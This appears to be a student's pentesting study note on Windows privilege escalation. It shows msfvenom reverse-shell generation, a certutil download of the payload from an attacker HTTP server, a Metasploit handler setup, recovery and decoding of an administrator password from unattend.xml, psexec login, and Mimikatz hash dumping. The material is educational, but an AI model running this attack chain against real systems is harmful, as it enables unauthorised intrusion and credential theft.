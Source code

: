 On a unprivileged windows account, can check for other users with `net user`
+ can also so the unprivileged accounts privileges with `whoami /priv`

On a kali OS, we will generate a reverse shell with <r>msfvenom</r>
+ Example: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe`

With the payload, can set up a simple http server with the python module <o>SimpleHTTPServer</o> on the kali OS
+ Example: `python -m SimpleHTTPServer 80`
+ Now we can go to the windows computer we are attacking, and use the server we are running on the kali os to allow the windows computer to download the payload 

On the windows computer we are attacking, can download the payload with <o>certutil</o>
+ Example: `certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe` where the IP is the Kali computer 

Will now go into <r>msfconsole</r> to set up the handler
+ Can do so with: `service postgresql start && msfconsole`
+ Will then `use multi/handler`
  + `set payload windows/x64/meterpreter/reverse_tcp`
  + `set LPORT 1234`
  + `set LHOST 10.10.9.2`
+ Will now have a reverse shell after running it, can find the unattend.xml and `download` it

When we `cat` the unattend.xml, we will scroll till we see `<AutoLogon>`
+ Example:
``` xml
<AutoLogon>
    <Password>
        <Value>QWRtaW5AMTIz</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>administrator</Username>
```
+ Here we can see the administrators password, and that it is <b>base64</b> encoded because the `<PlainText>` value is ***false***

To remove the <b>base64</b> encoding, will do the following:
+ `vim password.txt` and paste the encoded password in it
+ Utilize the <o>base64</o> tool with the `-d` option to decode
  + Example: `base64 -d password.txt`
    + which outputs `Admin@123`

Can verify it is the right credentials with <r>psexec</r> 
+ Example: `psexec.py Administrator@10.3.21.57`
  + It will then ask for the password
+ Now have access to the target system as an admin 

### Dumping Hashes With Mimikatz ###

#### Mimikatz ####
+ <r>Mimikatz</r> is a Windows post-exploitation tool written by Benjamin Delpy
  + Allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory 
+ The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords
+ Mimikatz can be used to extract hashes from the ***lsass.exe*** process memory where hashes are cached 
+ Can utilize the pre-compiled mimikatz executable, alternatively, if we have have access to a meterpreter session on a Windows target, can utilize the inbuilt meterpreter extension <r>Kiwi</r> 
